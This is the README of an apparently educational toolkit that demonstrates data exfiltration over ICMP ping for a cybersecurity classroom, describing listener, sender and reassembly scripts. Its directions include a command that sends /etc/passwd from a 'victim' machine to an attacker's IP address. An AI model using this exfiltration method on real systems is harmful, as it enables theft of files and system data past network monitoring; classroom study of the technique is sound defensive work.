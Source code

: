 ## About:
These programs demostrate how an attacker can exfiltrate data using the icmp protocol.  
They are designed for use in a cybersecurity classroom.  

## Programs Included:
- exfil.sh: This program sends files **FROM the VICTIM** machine over ping.   
- listen.sh: This runs the tcpdump command and produces the output file data.dmp.  
- pyarray.py: This program parses through data.dmp file.  
- rebuild.sh: This script runs pyarray, produces hexout, and prints the recieved file in plaintext.  

## Directions:

Copy listen.sh, pyarray.py, and rebuild.sh to the **ATTACKER** machine.  
Run  
```
./listen.sh  
```

Copy **exfil.sh** to the **VICTIM MACHINE**  
Usage: ./exfil.sh <file_to_transfer> <ip_address_of_attacker>  
Example:
```
./exfil.sh /etc/passwd 192.168.14.5
```

Use CTRL-C to stop listen.sh.  
(You should see a file called data.dmp which contains the tcpdump output.)

Run  
```
./rebuild.sh 
```
The file sent from the victim will be printed in plain text.  


